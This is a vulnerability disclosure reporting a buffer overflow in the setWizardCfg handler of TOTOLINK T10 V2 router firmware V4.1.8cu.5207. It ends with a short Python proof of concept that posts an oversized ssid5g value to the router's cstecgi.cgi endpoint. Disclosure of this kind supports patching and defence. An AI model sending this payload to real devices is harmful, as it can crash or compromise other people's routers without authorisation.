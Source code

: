 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://totolink.com.my/products/t10/

## Affected version

T10 V2_Firmware V2_V4.1.8cu.5207

## Vulnerability details

In the T10 V2_Firmware V2_V4.1.8cu.5207 firmware has a buffer overflow vulnerability in the `setWizardCfg` function. The `v68` variable receives the `ssid5g` parameter from a POST request. However, since the user can control the input of `ssid5g`, the `strcnpy` can cause a buffer overflow vulnerability.

![image-20240902132027948](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240902132027948.png)

![image-20240902131826046](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240902131826046.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {
"topicurl":"setWizardCfg",
"cloneMac":"11:22:33:44:55",
"ssid5g":"b"*0x1000,
}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240721015356613](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721015356613.png)

